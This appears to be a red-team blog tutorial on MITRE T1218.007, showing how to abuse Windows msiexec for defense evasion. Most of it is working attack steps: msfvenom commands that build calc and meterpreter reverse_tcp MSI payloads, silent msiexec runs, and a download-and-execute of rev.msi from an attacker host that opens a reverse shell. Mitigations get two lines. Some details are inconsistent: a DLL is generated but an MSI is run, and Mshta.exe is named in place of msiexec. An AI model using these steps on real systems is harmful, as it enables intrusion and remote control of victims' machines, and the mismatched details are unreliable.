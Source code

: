 ```yaml
---
title: MSIEXEC
date: 2022-04-01 05:49:33 +0800
categories: [Red Teaming, Defense Evasion]
tags: [redteam,defense-evasion, windows, mitre, msiexec]     # TAG names should always be lowercase
---
```


# MITRE
- ID : `T1218.007`
- Tactic : `Defense Evasion`
- Platforms: `Windows`

# MSIEXEC

***Msiexec.exe*** Is a command-line utility that Provides the means to install, modify, and perform operations on Windows Installer from the command line.Adversaries may abuse msiexec.exe to proxy execution of malicious payloads.

# Exploitations

## Invoke Calculator

Generate payload using msfvenom, transfer the payload to your windows machine, then execute the below command to invoke calculator.

*generating payload*

> `msfvenom -p windows/exec CMD=calc.exe -f msi > [file_name.msi]`

```bash
┌──(cyberkhalid㉿kali)-[~/redteam/exploit]
└─$ msfvenom -p windows/exec CMD=calc.exe -f msi > cmd.msi
To use retry middleware with Faraday v2.0+, install `faraday-retry` gem
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 193 bytes
Final size of msi file: 159744 bytes

```

Command
> `msiexec /q /i "[local_msi_file]"`

*executing payload to invoke calculator*

```batch
msiexec /q /i "C:\Users\IEUser\Desktop\calc.msi"
```

![msiexecwin](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/msiexeccalc.png)

## Execute Local MSI file To Get Meterpreter Shell

To get meterpreter shell, you need to generate meterpreter payload using msfvenom, transfer it to windows machine, setup your metasploit listener, then execute the below command.

*generating meterpreter payload*

> `msfvenom -p windows/meterpreter/reverse_tcp lhost=[ip] lport=[port] -f msi -o [file_name.msi]`

```bash

┌──(cyberkhalid㉿kali)-[~/redteam/exploit]
└─$ msfvenom -p windows/meterpreter/reverse_tcp lhost=10.42.0.1 lport=10000 –f msi -o rev.msi
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
```
Command
> `msiexec /q /i "[local_msi_file]"`

*executing msiexec to get reverse shell*
```batch
msiexec /q /i "C:\Users\IEUser\Desktop\rev.msi"
```
![msiexecwin](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/msiexecwin.png)

*setting metasploit listener, getting reverse shell*

![msiexecmeta](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/rundllmeta.png)

## Execute Remote MSI file To Get Meterpreter Shell

To get meterpreter shell, you need to generate meterpreter payload using msfvenom, host it on your server i.e `python -m http.server`, setup your metasploit listener, then execute the below command.

*generating payload*
```bash
┌──(cyberkhalid㉿kali)-[~/redteam/exploit]
└─$ msfvenom -p windows/meterpreter/reverse_tcp lhost=10.42.0.1 lport=10000 –f dll > rev.dll                                                                          
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes

```
Command
> `msiexec /q /i "[file_url]"`

*executing msiexec to get reverse shell*
```batch
msiexec /q /i "http://10.42.0.1/rev.msi"
```
![msiexecwin](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/msiexecwinr.png)

*setting metasploit listener, getting reverse shell*

![msiexecmeta](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/rundllmeta.png)

# Mitigations

- Disable or Remove Mshta.exe.
- Restrict execution of Msiexec.exe to privileged accounts or groups.

# References

- [https://attack.mitre.org/techniques/T1218/007/](https://attack.mitre.org/techniques/T1218/007/)
- [https://attack.mitre.org/mitigations/M1042/](https://attack.mitre.org/mitigations/M1042/)
- [https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/msiexec](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/msiexec)
- [https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/windows](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/windows)
